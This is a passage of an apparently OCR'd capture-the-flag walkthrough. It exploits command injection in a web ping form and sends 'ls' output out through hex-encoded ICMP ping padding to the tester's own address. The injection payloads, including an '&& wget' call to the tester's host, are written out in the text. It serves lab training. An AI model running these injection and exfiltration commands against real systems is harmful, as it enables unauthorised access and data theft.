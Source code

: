 **127.0.0.1 && ls** into the shiny “address” box and hit submit:


The response I received wasn’t quite what I was looking for... nothing just the same form
with no additional output. :(. However I did notice that there was a delay in between
sending my request and receiving the response. It seemed as if it really was pinging the IP
address provided. My first attempt to exploit this was to enter **127.0.0.1 && wget
[http://192.168.56.102](http://192.168.56.102)** whilst I tailed my apache logs, this yielded no results so I moved
onto to looking at the man page for the ping command to see if there was anything useful,
I'd heard of ICMP backdoors previously so it must be possible to add some custom data to a
ping packet but I wasn't sure if it was possible with the ping command alone, I came across
the -p flag:

Great so we can use this to add some data to the ping packet. Before I went at it all guns
blazing I tried out the command locally with a test string:

So the string we send needs to be hex. It was time for some bash-fu, I ended up with the
following command: **ping 127.0.0.1 -p $(echo -n test|xxd -i|tr -d '0x'|tr -d ' ,\r\n')**

As you can see it creates a hex pattern:

Let's break this command down, so the whole thing is encapsulated with $() this characters
perform a substitution so the output of our command will be passed as an argument to -p of
the pattern flag.

As a test I echoed the word “test” (with no new line character -n) and piped this to the xxd
command using the -i flag, this will output “test” in hex format as: **0x74, 0x65, 0x73,
0x74** now we pipe this output to tr (translate) command with -d flag to delete 0x space
comma and any carriage return or line feed characters to neutralize new lines. Time to put
this little puppy into burp suite but this time I changed the **echo -n test** to **echo -n `ls`**
this was another substitution to echo the output of ls but remove any new line characters. I
was also very careful to encode the payload replacing & with %26.

The request looked as follows, you will notice the ping command I'm sending is to ping my
IP, this way I can view the ICMP response with hopefully the pattern in Wireshark. I have
also specified -c 1 to the end of the command, this is because by default the command in
Linux will continue until it's terminated which is not possible for us to do:


I had configured my Wireshark to monitor eth1 which is 192.168.56.102:


To avoid any junk in the results I also included a display filter of **icmp && ip.src ==
192.168.56.101** so that we can only see ICMP responses from 192.168.56.101.

Now we send the request with burp and we can see the following response in Wireshark:

OK cool, so it returns “debug” this seems to match up with the page discovered using
Dirbuster. Let's see if there’s anything else of interest in the web root that Dirbuster couldn't
find? It seemed sensible to modify my ls command to list one file at a time starting with the
letter “a” and working its way up to “z”, then move onto uppercase A-Z and finally numbers.
For example **ls a*** to list the first file that starts with “a” until I had tried each of my
selected characters in turn:

{{ < highlight  html >}}

{{ < / highlight  html >}}
